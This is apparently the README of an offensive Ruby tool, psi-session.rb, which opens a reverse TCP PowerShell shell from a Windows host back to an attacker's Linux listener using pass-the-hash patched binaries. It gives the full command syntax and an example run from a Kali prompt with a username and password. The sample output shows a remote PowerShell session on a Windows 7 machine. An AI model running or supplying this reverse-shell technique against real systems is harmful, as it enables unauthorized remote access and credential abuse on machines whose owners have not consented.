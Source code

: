 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax:

ruby psi-session.rb <DOMAIN/username> <password> <rhost> <lhost> <lport>

Example:

root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000

Windows PowerShell running as user bob on CLA-WIN7TOOLS

Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami

cla-win7tools\bob

PS C:\Windows\system32> 
